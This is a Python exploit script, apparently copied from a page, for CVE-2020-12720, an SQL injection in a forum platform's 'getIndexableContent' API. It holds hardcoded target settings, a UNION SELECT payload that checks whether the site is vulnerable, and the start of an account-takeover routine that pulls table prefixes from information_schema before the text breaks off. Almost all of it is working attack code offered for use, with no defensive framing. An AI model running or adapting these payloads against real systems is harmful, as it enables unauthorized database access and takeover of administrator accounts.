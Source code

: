    ## Static vars; change at will, but recommend leaving as is
    sADMINPASS = '12345678'
    sCMD = 'id'
    sURL = 'http://192.168.50.130/'
    sUSERID = '1'
    sNEWPASS = '87654321'
    iTimeout = 5

    ## Ignore unsigned certs
    ssl._create_default_https_context = ssl._create_unverified_context

    ## Keep track of cookies between requests
    cj = http.cookiejar.CookieJar()
    oOpener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(cj))

    def randomString(stringLength=8):
        letters = string.ascii_lowercase
        return ''.join(random.choice(letters) for i in range(stringLength))

    def getData(sUrl, lData):
        try:
            oData = urllib.parse.urlencode(lData).encode()
            oRequest = urllib.request.Request(url = sUrl, data = oData)
            return oOpener.open(oRequest, timeout = iTimeout)
        except:
            print('----- ERROR, site down?')
            sys.exit(1)

    def verifyBug(sURL,sUserid='1'):
        sPath = 'ajax/api/content_infraction/getIndexableContent'
        lData = {'nodeId[nodeid]' : '1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,"cve-2020-12720",8,7,6,5,4,3,2,1;--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if not 'cve-2020-12720' in sResponse:
            print('[!] Warning: not vulnerable to CVE-2020-12720, credentials are needed!')
            return False
        else:
            print('[+] SQLi Success!')
            return True

    def takeoverAccount(sURL, sNEWPASS):
        sPath = 'ajax/api/content_infraction/getIndexableContent'
        ### Source: https://github.com/rekter0/exploits/tree/master/CVE-2020-12720
        ## Get Table Prefixes
        lData = {'nodeId[nodeid]' : '1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,table_name,8,7,6,5,4,3,2,1 from information_schema.columns WHERE column_name=\'phrasegroup_cppermission\';--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'rawtext' in sResponse: sPrefix = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','').replace('language','')
        else: sPrefix = ''
        #print('[+] Got table prefix "'+sPrefix+'"')
